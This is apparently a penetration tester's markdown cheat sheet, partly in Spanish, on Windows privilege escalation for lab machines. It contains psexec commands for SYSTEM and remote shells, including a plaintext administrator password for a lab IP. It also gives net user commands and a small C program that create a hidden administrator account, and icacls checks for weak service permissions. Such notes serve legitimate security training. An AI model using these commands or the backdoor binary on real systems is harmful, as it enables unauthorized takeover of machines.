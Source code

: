 ## from box
#### |  windows-privesc-check v2
https://github.com/pentestmonkey/windows-privesc-check

&nbsp;
&nbsp;
#  comands
---
#### | windows admin to system :
```
PSEXEC.exe -i -s -d CMD
```
#### | connect remotely psexec
temes credenciales y smb esta abierto? proba
```
psexec.py Administrator:'MyUnclesAreMarioAndLuigi!!1!'@10.10.10.125
```
#### | add admin user account
```
net user /add [username] [password]
net localgroup administrators [username] /add
```
OR WITH binary
```
#include
int main()
{ int i;

i = system(“net user /add ashoka qwerty”);
i = system(“net localgroup administrators ashoka /add”);
return 0;

}
```
#### | find weak permissions via Cacls or ICacls
```
cacls “C:\Program Files” /T | findstr Users
or
icacls “C:\Program Files” /T | findstr Users
```

```
icacls  "c:\program files\serviio\bin\serviioService.exe"
```

&nbsp;
&nbsp;
# anexo
based on : https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
